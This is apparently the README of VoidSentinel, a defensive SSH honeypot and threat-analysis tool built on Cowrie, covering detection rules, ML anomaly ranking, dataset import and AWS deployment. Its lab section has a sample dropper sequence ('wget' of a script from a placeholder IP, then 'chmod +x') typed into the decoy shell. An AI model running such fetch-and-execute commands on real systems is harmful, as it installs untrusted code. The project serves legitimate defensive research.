








<div align="center">



<br/>

# 🛰️ VoidSentinel

### Cloud SSH Honeypot & AI-Assisted Threat Analysis

*Catch real attackers in an isolated decoy, rebuild every session, flag what matters with explainable rules, rank the weird ones with machine learning, and prove the ranking actually helps triage.*

<br/>


<p><a href="VERCEL.md">Vercel deployment: setup, persistent imports and verification</a></p>

<br/>

[**Quick Start**](#-quick-start-lab-mode) ·
[**Architecture**](#-architecture) ·
[**Datasets**](#-datasets-for-analysis) ·
[**Cloud Deploy**](#%EF%B8%8F-cloud-deployment-aws) ·
[**Troubleshooting**](#-troubleshooting)

</div>


## 📖 Overview

**VoidSentinel** collects activity from an isolated SSH decoy ([Cowrie](https://github.com/cowrie/cowrie)), rebuilds every attacker session, flags what deserves attention using **explainable rules**, ranks unusual sessions with an **Isolation Forest**, and gives an analyst a private dashboard to inspect timelines and record verdicts. It also **measures** whether the ML ranking really improves triage compared with rules alone.

> **Nothing is synthetic.** Every session shown in the dashboard is a real SSH/Telnet connection handled by Cowrie (or a real historical Cowrie log you import).



### ✨ Highlights

| | Feature | What it gives you |
|---|---|---|
| 🍯 | **Cowrie decoy** | Medium-interaction SSH/Telnet honeypot with a fake shell; nothing real is exposed |
| 🧼 | **Sanitization at the edge** | Allowlisted fields only; passwords, `message`, `ttylog` and payloads dropped; commands redacted |
| 🧩 | **Session reconstruction** | Sessions rebuilt from all events each time, so out-of-order delivery cannot corrupt them |
| 📏 | **10 explainable rules** | Each alert shows its reason, threshold, MITRE ATT&CK reference and links to evidence events |
| 🌲 | **Isolation Forest** | Unusualness percentile + the exact features that deviate from the baseline |
| 📊 | **Honest evaluation** | Time-split, equal-review-budget comparison of *rules* vs *rules + ML* |
| 📥 | **Dataset Import** | Analyze historical Cowrie logs (JSONL/JSON/CSV/ZIP/GZ) as separate, isolated data sources |
| 🔐 | **Role-based sign-in** | Admin and Analyst roles enforced by the API, with server-side sessions and `HttpOnly` cookies |
| ☁️ | **Terraform on AWS** | Isolated sensor VPC, locked-down egress via VPC endpoints, CloudWatch Logs, budget alarms |



---

## 🧭 Modes

The **same collector, worker, API and dashboard** run in three modes:

| Mode | Decoy | Transport | Use it for |
|---|---|---|---|
| 🧪 **Lab** | Cowrie in Docker on your machine (`127.0.0.1:2222`) | Local JSONL file | Build, demo, develop |
| ☁️ **Cloud** | Cowrie on an isolated EC2 sensor | CloudWatch Logs | Real internet telemetry and evaluation |
| 📥 **Dataset Import** | Historical Cowrie SSH/Telnet logs | File upload / CLI | Offline analysis before the AWS sensor runs |

---

## 🏗️ Architecture

### System overview



### What happens when an attacker connects



### Detection and triage lifecycle



### Anomaly model pipeline



### Role model



---

## 🧰 Tech Stack


| Layer | Technology | Purpose |
|---|---|---|
| **Decoy** | Cowrie | Medium-interaction SSH/Telnet honeypot |
| **Collector** | Python, `sanitize.py` | Field allowlist, secret redaction, deterministic `vs_uid`, heartbeat |
| **Backend** | Python 3.12, FastAPI, Uvicorn | REST API, authentication, role enforcement |
| **Ingestion** | Python worker (single writer) | Dedup, session reconstruction, rules, ML scoring |
| **Storage** | SQLite | Events, sessions, alerts, verdicts, models, datasets |
| **ML** | scikit-learn (Isolation Forest) | Explainable anomaly ranking per session |
| **Frontend** | React, Vite, TypeScript, Tailwind CSS, Recharts | Analyst dashboard, timelines, evaluation charts |
| **Containers** | Docker, Docker Compose (`lab` profile) | One-command local stack |
| **Cloud** | AWS EC2, VPC endpoints, IAM, CloudWatch Logs, SSM | Isolated sensor with restricted egress |
| **IaC** | Terraform ≥ 1.5 | Reproducible sensor VPC, IAM, logs, budget |
| **Testing** | pytest, Paramiko traffic generator | Unit tests and controlled SSH sessions |

---

## 📁 Repository Layout

```text
VoidSentinal/
├── backend/                  FastAPI API + ingestion worker (Python 3.12)
│   ├── voidsentinel/
│   │   ├── sanitize.py       field allowlist + command redaction (same code as the sensor)
│   │   ├── sources.py        file source (lab) / CloudWatch source with checkpoint + overlap
│   │   ├── sessions.py       event storage (dedup by event ID) + session reconstruction
│   │   ├── rules.py          10 detection rules, each with reason + evidence event IDs
│   │   ├── categories.py     command → behaviour categories
│   │   ├── ml.py             Isolation Forest: features, training, scoring, explanations
│   │   ├── evaluation.py     rules vs rules+ML at equal review budget, time-split
│   │   ├── importer.py       Dataset Import: readers, validation, preview, CLI
│   │   ├── worker.py         single-writer ingestion loop
│   │   └── api.py            REST API for the dashboard
│   └── tests/                pytest unit tests
├── frontend/                 React + Vite + TypeScript + Tailwind + Recharts dashboard
├── sensor/
│   ├── collector/            collector.py + sanitize.py
│   ├── systemd/              cowrie.service, voidsentinel-collector.service
│   └── scripts/validate_egress.sh
├── infra/terraform/          AWS: sensor VPC, endpoints, IAM, EC2, logs, budget
├── tools/lab_sessions.py     controlled SSH test traffic for your own decoy
├── datasets/                 drop large logs here for the command-line importer
├── docker-compose.yml        analysis stack (+ `lab` profile with Cowrie and collector)
├── docker-compose.cloud.yml  override that switches the worker to CloudWatch
└── .env.example              copy to .env and edit
```

---

## 🚀 Quick Start (Lab Mode)

### Prerequisites

| Requirement | Notes |
|---|---|
| 🐳 **Docker Desktop** (Windows/macOS) or Docker Engine + Compose v2 (Linux) | **Make sure Docker Desktop is running first** |
| 🐍 **Python 3.10+** | Only needed for the traffic generator |
| 🔑 **OpenSSH client** | Built into Windows 10/11, macOS and Linux |

### 1️⃣ Clone and start the stack

**Windows (PowerShell)**

```powershell
git clone https://github.com/LoganthP/VoidSentinal.git
cd VoidSentinal

copy .env.example .env          # skip if .env already exists
docker compose --profile lab up -d --build
docker compose --profile lab ps
```

**macOS / Linux**

```bash
git clone https://github.com/LoganthP/VoidSentinal.git
cd VoidSentinal

cp .env.example .env
docker compose --profile lab up -d --build
docker compose --profile lab ps
```

Once `voidsentinel-api-1` shows **`(healthy)`** and `voidsentinel-web-1` is **`Up`**, open:

### 👉 **http://127.0.0.1:8082**

### 2️⃣ Sign in

The first start creates two accounts from `.env`:

| Role | Username | Password | Can |
|---|---|---|---|
| 🛡️ **Admin** | `admin` | `Iou3D6sDrH0B4msK` | Everything an analyst can, plus import datasets, retrain models, manage access |
| 🧑‍💻 **Analyst** | `analyst` | `Ax9BtIpBbp2JUv4H` | View telemetry, investigate alerts, record verdicts |

> ⚠️ Passwords are **case-sensitive**. These are placeholder lab credentials, so change them in `.env` before the first start (or later on the **Access** page) and never reuse them anywhere real. If a password is left empty, one is generated and printed once in `docker compose logs api`.

### 3️⃣ Generate test traffic against the Cowrie decoy

**Manual SSH session.** Cowrie accepts `root` with any password **except** `root` and `123456`.

```powershell
# Windows (PowerShell)
ssh -p 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=NUL root@127.0.0.1
```

```bash
# macOS / Linux
ssh -p 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@127.0.0.1
```

Try password `root` first (rejected), then something like `letmein` (accepted). Inside the fake shell run a few commands:

```bash
uname -a
cat /proc/cpuinfo
wget http://203.0.113.10/x.sh
chmod +x x.sh
exit
```

Within seconds the session appears under **Sessions**, its findings under **Alert queue**, and the timeline highlights the evidence for each alert.

**Automated traffic.** This trains the Isolation Forest, which activates after **30 completed sessions**.

```powershell
pip install paramiko==3.4.1
python tools/lab_sessions.py --host 127.0.0.1 --port 2222 --sessions 40
```

The tool opens real SSH sessions that behave like scanners, brute-forcers, recon bots, droppers, persistence and miner attempts. Because they come from your machine they are tagged **demo** and are always excluded from the ML evaluation.

### 🧰 Useful management commands

```powershell
docker compose logs -f worker collector            # watch live ingestion
docker compose run --rm api python -m pytest -q    # run backend unit tests
docker compose --profile lab down                  # stop containers (keeps data volumes)
docker compose --profile lab down -v               # stop containers AND delete all data
```

### 🧼 Start completely fresh

Use this to clear all databases, sessions, alerts and credentials so the passwords in your `.env` take effect.

**1. Stop and wipe all persistent volumes**

```powershell
docker compose --profile lab down -v
```

**2. Check your `.env` settings**

```ini
VS_ADMIN_USERNAME=admin
VS_ADMIN_PASSWORD=YourChosenPasswordHere
VS_ANALYST_USERNAME=analyst
VS_ANALYST_PASSWORD=YourChosenPasswordHere
```

Because the database is created fresh, it uses exactly these credentials.

**3. Start and rebuild the stack**

```powershell
docker compose --profile lab up -d --build
```

**4. Verify the containers**

```powershell
docker compose --profile lab ps
```

Then open **http://127.0.0.1:8082**.

---

## 📥 Datasets for Analysis

Use **Dataset Import** to analyze historical Cowrie logs before your AWS sensor is running. Each import becomes its own **data source**, selectable in the sidebar, and is never mixed with live sensor data.

| # | Dataset | Link |
|:-:|---|---|
| 1 | Honeypot Attack Logs | [kaggle.com/datasets/lougarou/honeypot-attack-logs](https://www.kaggle.com/datasets/lougarou/honeypot-attack-logs) |
| 2 | Cowrie SSH/Telnet Honeypot Dataset | [kaggle.com/datasets/melikebaseer/cowrie-sshtelnet-honeypot-dataset](https://www.kaggle.com/datasets/melikebaseer/cowrie-sshtelnet-honeypot-dataset) |
| 3 | Global SSH and Telnet Honeypot Logs (Cowrie) | [kaggle.com/datasets/nlaha11/global-ssh-and-telnet-honeypot-logs-cowrie](https://www.kaggle.com/datasets/nlaha11/global-ssh-and-telnet-honeypot-logs-cowrie) |
| 4 | Cowrie Medium Interaction | [kaggle.com/datasets/xmlyna/cowrie-medium-interaction](https://www.kaggle.com/datasets/xmlyna/cowrie-medium-interaction) |

> 💡 Download the `.zip` from Kaggle and upload it directly. The importer scans it for every `.json`, `.jsonl`, `.log`, `.csv` and `cowrie.json*` file inside. Always check each dataset's license and terms on its Kaggle page before use or redistribution.

### Supported files

| Format | Notes |
|---|---|
| Cowrie JSON Lines | `cowrie.json`, `.jsonl`, `.log` |
| JSON array | An array of Cowrie events |
| Elasticsearch-style export | Each event under `_source` |
| CSV / TSV | Columns auto-matched to Cowrie fields; adjust the mapping in the preview |
| Compressed | Any of the above as `.gz` or `.zip` |

SSH and Telnet sessions are both handled, and event types written without the `cowrie.` prefix (e.g. `login.failed`) are matched automatically.

### Import from the dashboard (Admin)

1. Open **Import dataset** and drop the file.
2. Review the validation preview **before anything is stored**: rows read / accepted / rejected (with reason and line number), time range, sessions, distinct source IPs, protocols, event types, and how many passwords and `message` fields will be stripped.
3. Name the dataset and click **Import and analyze**.
4. Click **View imported analysis**.

The importer stores events (identical duplicates once), rebuilds every session, runs all rules including the cross-connection repeated-failure rule, closes sessions that never logged a close, and trains an anomaly model **on that dataset alone**.

### Import from the command line (very large files, over 1 GB)

Put the file in `./datasets/`, then:

```powershell
docker compose exec api python -m voidsentinel.importer /datasets/cowrie.json --preview-only
docker compose exec api python -m voidsentinel.importer /datasets/cowrie.json --name "Kaggle Cowrie"
docker compose exec api python -m voidsentinel.importer /datasets/export.csv --map session=session_id --map eventid=event
```

The dashboard upload limit is `VS_MAX_UPLOAD_MB` (default `1024`). Deleting a dataset removes its events, sessions, alerts, verdicts and model, and leaves live data untouched.

### Quick analysis ideas

- Click **Sessions with repeated failed logins** and open an alert to see the exact failed-login events highlighted.
- Click **Most unusual sessions**, open the top one, and read **How unusual it is** to see which features set it apart.
- Mark sessions with verdicts, then use the **Anomaly ranking** page to compute precision and recall within that dataset.

> Network-flow datasets such as CIC-IDS2017 have no session IDs or commands, so they do not fit this importer.

---

## 🧠 How It Works

### 🧼 Sanitization (sensor and worker)

Only allowlisted Cowrie fields leave the sensor. Captured passwords appear in both `password` and the free-text `message` field of login events, so **both are dropped**, along with terminal recordings (`ttylog`) and forwarded payloads. Command text has obvious secrets redacted (`chpasswd` input, `password=…`, SSH keys, long base64/hex blobs) and is truncated to 300 characters. The dashboard renders it as plain text only.

### 📡 Reliable transport

The collector advances its read offset **only after** the sink accepts a batch and stamps each record with a deterministic `vs_uid`. A worker checkpoint plus a 10-minute overlap never skips late-shipped events, and duplicates are ignored. Restarting the worker is safe. A heartbeat is shipped every minute: **Quiet** means a fresh heartbeat with no attacker events for an hour (normal), and **Stalled** means no heartbeat for 3 minutes (check the sensor).

### 📏 Detection rules

Every rule shows its reason, trigger threshold, a MITRE ATT&CK reference where one fits, and links to its evidence events. Thresholds are set in `.env`.

| # | Rule | Severity hint |
|:-:|---|---|
| 1 | Password guessing within one connection | Medium |
| 2 | Repeated login failures across connections from one source | Medium |
| 3 | Interactive access (successful login with commands) | Medium |
| 4 | Payload download | High |
| 5 | Download-then-execute | **Critical** |
| 6 | Persistence attempts | High |
| 7 | Account tampering (including Cowrie's `chpasswd` event) | High |
| 8 | Miner indicators | High |
| 9 | History / log tampering | High |
| 10 | Reconnaissance bursts | Low–Medium |

*Severity hints are indicative; the effective values come from the rule configuration.*

### 🌲 Anomaly ranking

Isolation Forest (scikit-learn) trains on completed sessions once **30** exist and retrains when the pool grows 25% or every 6 hours. Each score is a percentile against the training set and lists the features that deviate most from the baseline median. It measures **unusualness, not maliciousness**, and is shown separately from rule severity.

### 📊 Evaluation

Completed non-demo sessions are split at a date; a fresh model is trained only on the earlier part. For each later week, *rules only* and *rules + ML* each pick the same review budget. The report shows how many reviewed picks were worth investigating, how many the ML found with **no rule firing**, recall against all sessions you marked worth investigating, and unreviewed picks.

### 🔐 Sign-in and permissions

|  | Analyst | Admin |
|---|:-:|:-:|
| View telemetry, alerts, sessions, anomaly ranking | ✅ | ✅ |
| Record verdicts (stored with your username) | ✅ | ✅ |
| Import / delete datasets, retrain models | ❌ | ✅ |
| Add people, change roles, reset passwords, disable accounts | ❌ | ✅ |

Every API route except `/api/health` requires sign-in, and permissions are enforced by the API, not just hidden in the UI. Sessions are server-side: the browser holds only a random token in an `HttpOnly`, `SameSite=Strict` cookie (`Secure` when `VS_COOKIE_SECURE=true`). They expire after `VS_SESSION_HOURS` (8) or `VS_SESSION_IDLE_MINUTES` (120). Passwords are hashed with scrypt, and five failed sign-ins lock that username for 15 minutes.

---

## ☁️ Cloud Deployment (AWS)

**Prerequisites:** AWS account, AWS CLI v2, Terraform ≥ 1.5, and the [Session Manager plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html).

> ⚠️ Only deploy infrastructure you own, and check your institution's and cloud provider's rules before exposing a honeypot to the internet.



### 1. Bootstrap (decoy closed, temporary egress open)

```bash
cd infra/terraform
cp terraform.tfvars.example terraform.tfvars
# edit: allowed_decoy_cidrs = ["<your public IP>/32"]   (curl -s https://checkip.amazonaws.com)
#       budget_email = "you@example.com"
terraform init
terraform apply
```

Wait about 5 minutes, then confirm the sensor finished installing:

```bash
aws ssm start-session --target $(terraform output -raw sensor_instance_id) --region ap-south-1
sudo tail -n 3 /var/log/voidsentinel-bootstrap.log     # expect: "bootstrap complete"
systemctl status cowrie voidsentinel-collector --no-pager
exit
```

### 2. Lock down and open the decoy

```bash
terraform apply -var bootstrap_mode=false
```

This removes temporary internet egress (the sensor can reach only the CloudWatch Logs and SSM VPC endpoints) and opens port 22 to `allowed_decoy_cidrs`. Port 22 is redirected to Cowrie on 2222, the real `sshd` is disabled, and administration is SSM-only. **Validate before widening exposure:**

```bash
aws ssm start-session --target $(terraform output -raw sensor_instance_id) --region ap-south-1
sudo /opt/voidsentinel/validate_egress.sh        # every line must be PASS
```

### 3. Run the analysis stack against CloudWatch

```bash
aws iam create-access-key --user-name $(terraform output -raw reader_user)
aws configure --profile voidsentinel-reader      # paste the key; region ap-south-1
```

Edit `.env`:

```ini
AWS_PROFILE=voidsentinel-reader
AWS_REGION=ap-south-1
VS_DEMO_SOURCE_CIDRS=<your public IP>/32
VS_ML_INCLUDE_DEMO=false
VS_ADMIN_PASSWORD=<a long unique password>
VS_ANALYST_PASSWORD=<a long unique password>
VS_COOKIE_SECURE=true          # if the dashboard is behind HTTPS
```

Start the stack (no `lab` profile, because the real decoy is in AWS):

```bash
docker compose -f docker-compose.yml -f docker-compose.cloud.yml up -d --build
```

Within a minute **Sensors & rules** shows `sensor-01` with a fresh heartbeat. To collect real attacker traffic, set `allowed_decoy_cidrs = ["0.0.0.0/0"]` and run `terraform apply -var bootstrap_mode=false`.

**Optional private analysis host:** set `create_analysis_host = true`. It has no inbound rules; reach it through SSM and forward the dashboard:

```bash
aws ssm start-session --target $(terraform output -raw analysis_instance_id) \
  --document-name AWS-StartPortForwardingSession \
  --parameters '{"portNumber":["8081"],"localPortNumber":["8081"]}'
```

### 4. Costs and teardown

Always-on cost in `ap-south-1` comes from the sensor instance, four interface endpoints (hourly + per-GB), CloudWatch ingestion/storage, and an optional second instance. Check the AWS Pricing Calculator for current figures, and note that budget alerts can arrive after charges accrue.

```bash
terraform destroy          # removes everything, including the log group
```

---

## 🛠️ Running Without Docker (Development)

```bash
# terminal 1: API
cd backend && python -m venv .venv && source .venv/bin/activate   # Windows: .venv\Scripts\activate
pip install -r requirements.txt
export VS_DATA_DIR=./data VS_SHIPPED_FILE=./data/events.jsonl VS_DEMO_SOURCE_CIDRS=127.0.0.0/8 VS_ML_INCLUDE_DEMO=true
uvicorn voidsentinel.api:app --host 127.0.0.1 --port 8000

# terminal 2: worker (same env vars)
python -m voidsentinel.worker

# terminal 3: collector, pointed at a Cowrie you run locally
cd sensor/collector
COWRIE_LOG=/path/to/cowrie/var/log/cowrie/cowrie.json SINK=file SINK_FILE=../../backend/data/events.jsonl \
STATE_FILE=./state.json SENSOR_NAME=lab-sensor python collector.py

# terminal 4: dashboard with hot reload (proxies /api to :8000)
cd frontend && npm install && npm run dev      # http://127.0.0.1:8081 (stop the Docker web container first)
```

On Windows PowerShell, replace `export NAME=value` with `$env:NAME="value"`.

---

## ✅ Acceptance Checklist

| Phase | Check | How |
|---|---|---|
| **0. Startup** | Dashboard served at `http://127.0.0.1:8081` | `docker compose --profile lab up -d --build` |
| **Sign-in** | Signed-out users see the sign-in page; analysts get `403` on admin API calls | Demo steps 1 and 4 |
| **1. Working lab** | A controlled SSH session shows connect → login → commands → close in order | Open the session after the manual SSH test |
| **2. Cloud telemetry** | No duplicate rows after a worker restart | `docker compose restart worker`; counts do not jump |
| | Dashboard private | Bound to `127.0.0.1:8081`; API requires sign-in |
| | Sensor egress restricted | `validate_egress.sh` all PASS |
| | No passwords exported | Search the CloudWatch log group for a password you used: no hits |
| **3. Triage** | Every alert opens its evidence | Alert queue → click → highlighted events |
| | Quiet vs stalled | Stop the collector → *stalled* within 3 minutes |
| | Verdict persists | Demo step 3 |
| **Import** | Counts, timeline and rule findings match a small Cowrie file | Demo steps 4–5 |
| **4. ML evaluation** | Reproducible rules vs rules+ML at equal budget | Anomaly ranking page |

---

## 🩺 Troubleshooting

| Symptom | Fix |
|---|---|
| Dashboard says the API is unreachable | `docker compose ps`, then `docker compose logs api` |
| Lab sessions never appear | `docker compose logs collector` should show `shipped N events`; check `docker compose exec cowrie ls var/log/cowrie` |
| `ssh: connection refused` on 2222 | Cowrie takes about 10 s to start; check `docker compose logs cowrie` |
| Login fails with the expected password | Passwords are case-sensitive; if the DB already existed, run `docker compose --profile lab down -v` and start fresh |
| Cloud sensor shows *unknown* / *stalled* | On the sensor: `journalctl -u voidsentinel-collector -n 50`. `AccessDenied` means the log stream name does not match `sensor_name`; timeouts usually mean endpoint SG or private DNS |
| Worker CloudWatch read error | Confirm `AWS_PROFILE` / keys in `.env` and that `~/.aws` exists on the Docker host |
| An import looks stuck | Check `docker compose exec api sh -c 'tail -n 30 /data/uploads/*/.import.log'`. An import interrupted by a restart is marked failed; delete and re-import |
| "The database is busy" | A heavy import step was finishing a write; retry after a few seconds, nothing was lost |
| Anomaly column is empty | The baseline needs 30 completed sessions; in the lab set `VS_ML_INCLUDE_DEMO=true` and run the traffic tool |
| Windows quirks | Use PowerShell; use `NUL` instead of `/dev/null` in the SSH command |

---

## 🔒 Responsible Use

VoidSentinel is built for **defensive research and education**. Run decoys only on infrastructure you own, keep the dashboard bound to `127.0.0.1`, change all default credentials, and never connect the decoy to a network you care about. Follow your institution's and cloud provider's policies, and respect the license and terms of every dataset you analyze.
